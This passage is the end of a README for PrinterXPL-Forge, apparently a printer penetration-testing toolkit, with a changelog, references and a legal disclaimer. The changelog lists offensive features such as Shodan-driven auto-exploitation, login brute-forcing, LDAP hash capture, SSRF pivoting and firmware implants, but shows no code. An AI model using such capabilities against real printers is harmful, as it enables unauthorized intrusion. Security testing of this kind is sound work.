| 3.8.0 | 2026-03-25 | Structured dork discovery (Shodan/Censys), `--auto-exploit` pipeline, `DiscoveryParams`, `DorkQueryBuilder`, `auto_exploit()` |
| 3.7.0 | 2026-03-25 | Zero hardcoded creds, wordlist engine, draw.io diagrams, PNG assets |
| 3.6.2 | 2026-03-25 | LDAP hash capture, CVE-2024-51978, 5 new vendors |
| 3.6.0 | 2026-03-24 | 7 new BlackHat 2017 exploits + EDB research modules |
| 3.5.0 | 2026-03-24 | `--send-job`, wordlists subfolder, emoji-free CLI |
| 3.4.2 | 2026-03-24 | Interactive guided menu, spinner, next-steps hints |
| 3.4.1 | 2026-03-24 | Login brute-force engine, variation generator |
| 3.4.0 | 2026-03-24 | Exploit library (xpl/), --xpl-* flags, auto-matching |
| 3.3.0 | 2026-03-24 | --attack-matrix, --network-map, XSP/CORS spoofing |
| 3.2.0 | 2026-03-24 | IPP attacks, SSRF pivot, storage, firmware, implants |
| 3.1.0 | 2026-03-24 | --scan/--scan-ml, CVE scanner, ML engine, Shodan |
| 3.0.0 | 2026-03-24 | IPv6, SMB, pysnmp v5/v7, IPP/TLS, local discovery |
| 2.5.x | 2025-10-05 | Cross-platform, PRET fork, 109 commands |

---

## References

- Müller et al. — *Exploiting Network Printers*, BlackHat USA 2017
- [Hacking Printers Wiki](http://hacking-printers.net)
- [ExploitDB — Printer exploits](https://www.exploit-db.com/search?q=printer&verified=true)
- [NVD — National Vulnerability Database](https://nvd.nist.gov)
- [PRET — Printer Exploitation Toolkit](https://github.com/RUB-NDS/PRET)

---

## Legal Disclaimer

<!-- LEGAL-NOTICE-UG-MRH -->

PrinterXPL-Forge is developed for **authorized security research, penetration testing, and educational purposes only**. Using this tool against systems you do not own or have explicit written authorization to test is **illegal**.

The software is provided **“as is” (AS IS)** under the [MIT License](LICENSE), **without warranty** of any kind (express or implied). The author is **not liable** for damages, misuse, third-party claims, or commercial/fitness guarantees — **use at your own risk**. Preserve **copyright notices** when redistributing; **pull requests** and **issues** are welcome.

---

<div align="center">

**PrinterXPL-Forge** · *Advanced Printer Penetration Testing Toolkit*

Made with care for the security community.

[Documentation](https://github.com/mrhenrike/PrinterXPL-Forge/wiki) | [Issues](https://github.com/mrhenrike/PrinterXPL-Forge/issues) | [Releases](https://github.com/mrhenrike/PrinterXPL-Forge/releases)

</div>
